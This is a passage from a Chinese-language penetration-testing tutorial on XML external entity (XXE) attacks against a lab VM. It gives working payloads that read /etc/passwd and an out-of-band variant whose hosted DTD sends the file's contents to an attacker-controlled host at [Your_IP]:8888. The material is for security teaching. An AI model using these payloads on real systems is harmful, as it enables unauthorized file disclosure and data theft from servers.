 **XXE 实验——阅读文件：**

* 拦截 [你的 VM 的 IP]/xxe.php 的流量包并点击 `Hack of XML`
* 将截获的流量包发送到 Repeater
* 将“data”的 POST 参数修改为以下内容：
    * <?xml version ="1.0"?> <!DOCTYPE thp [<!ELEMENT thp ANY> <!ENTITY book SYSTEM "file:/// etc/passwd">]><thp>Hack The %26book%3B </thp>
* 请注意，`%26` 等同于`&`，`%3B`等同于 `;`。我们需要对&符号和分号字符进行百分比编码。
* 发送流量包，我们现在应该能够读取 `/etc/passwd`

 ![](img/3-44.png)

### 高级 XXE——XXE-OOB 
在之前的攻击中，我们能够在`<thp>`标签中获得返回的响应。那么如果我们看不到响应或遇到字符或文件限制怎么办？我们怎样使用带外数据协议（OOB）来发送我们的数据？我们可以提供远程文档类型定义（DTD）文件来执行 OOB-XXE，而不是在请求 payload 中定义我们的攻击。DTD 是结构良好的 XML 文件，用于定义 XML 文档的结构和法律元素及属性。为了简单起见，我们的 DTD 将包含我们所有的攻击或 exfil payload，这将帮助我们解决许多字符的限制。在我们的实验示例中，我们将使有 XXE 漏洞的服务器请求一个托管在远程服务器上的 DTD。

新的 XXE 攻击将分四个阶段进行：
1. 使用篡改后的 XXE XML 攻击
2. 对于存在漏洞的 XML 解析器，它会从攻击者服务器抓取一个 DTD 文件
3. 该 DTD 文件包含读取 /etc/passwd 文件的代码
4. 该 DTD文件也包含用于隐秘传输 /etc/passwd 内容的代码（可能是经过编码的）

设置我们的攻击者机器和 XXE-OOB payload：
* 我们将指定一个外部 DTD 文件，而不是原始文件读取
```xml
<!ENTITY % dtd SYSTEM "http://[Your_IP]/payload.dtd"> %dtd;
```

* 新的“数据”POST payload 将如下所示（记得更改 [Your_IP]）：
```xml
<?xml version="1.0"?><!DOCTYPE thp [<!ELEMENT thp ANY ><!ENTITY % dtd SYSTEM "http://[Your_IP]/payload.dtd"> %dtd;]><thp><error>%26send%3B</error></thp>
```

* 我们需要通过创建名为 payload.dtd 的文件在攻击者服务器上托管此 payload  
    * gedit /var/www/html/payload.dtd
```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % all "<!ENTITY send SYSTEM 'http://[Your_IP]:8888/collect=%file;'>">
%all;
```
